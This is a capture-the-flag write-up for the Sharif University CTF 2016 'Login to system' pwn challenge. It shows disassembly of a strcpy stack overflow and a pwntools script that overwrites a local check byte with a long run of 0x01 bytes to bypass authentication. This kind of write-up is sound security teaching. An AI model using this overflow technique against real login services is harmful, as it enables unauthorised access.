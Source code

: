 ```yaml
---
layout: post
title:  "Sharif University CTF 2016: Login to system (pwn 100)"
author: f0rki
categories: writeup
tags: [cat/pwn, tool/pwntools]
---
```


* **Category:** pwn
* **Points:** 100
* **Description:**

> Can you login to this system without username and password?
>
> telnet ctf.sharif.edu 27515
>
> Download Question.zip


## Write-up

The binary we were given was a threaded TCP server. The connection handling
function is at `0x00400de4`. It asks for username and password. The goal is to
login without username/password. The following piece of code checks whether a
a byte on the stack is `0x01` and then executes code that apparently reads the
flag and sends it to us.

```
│           0x00400f91      488d45e0       lea rax, [rbp-local_4]
│           0x00400f95      0fb600         movzx eax, byte [rax]
│           0x00400f98      3c01           cmp al, 1
```

Fortunately right before this check there is a call to strcpy:

```
│           0x00400f78      488d95d0fbff.  lea rdx, [rbp-local_134]
│           0x00400f7f      488d8520fbff.  lea rax, [rbp-local_156]
│           0x00400f86      4889d6         mov rsi, rdx
│           0x00400f89      4889c7         mov rdi, rax
│           0x00400f8c      e80ffcffff     call sym.imp.strcpy
```

So a stack based buffer overflow and overwriting a local variable. This is
easy. With a quick `pwntools` script we are able to get the flag:


```
from pwn import *  # NOQA

context.os = "linux"
context.arch = "amd64"
context.log_level = "debug"

vulnbin = "./Question"
velf = ELF(vulnbin)
vp = remote("ctf.sharif.edu", 27515)

username = "yomama"
password = "\x01" * 1050

x = vp.recvuntil("enter:")
assert "username" in x
vp.sendline(username)
x = vp.recvuntil("enter:")
assert "password" in x
vp.sendline(password)

with context.local(log_level='debug'):
    vp.clean_and_log()

vp.interactive()
```
